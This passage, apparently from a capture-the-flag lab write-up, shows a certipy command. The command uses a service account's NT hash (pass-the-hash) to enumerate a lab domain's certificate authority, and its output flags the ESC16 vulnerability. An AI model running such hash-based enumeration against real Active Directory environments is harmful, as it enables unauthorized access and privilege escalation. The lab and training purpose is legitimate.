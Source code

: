 - Maybe it's because the version of certipy-ad is too low, update it.

```bash
certipy find -username ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -vulnerable

Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250529120822_Certipy.txt'
[*] Wrote text output to '20250529120822_Certipy.txt'
[*] Saving JSON output to '20250529120822_Certipy.json'
[*] Wrote JSON output to '20250529120822_Certipy.json'

[root@kali] /home/kali/Fluffy
❯ cat 20250529120822_Certipy.txt
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```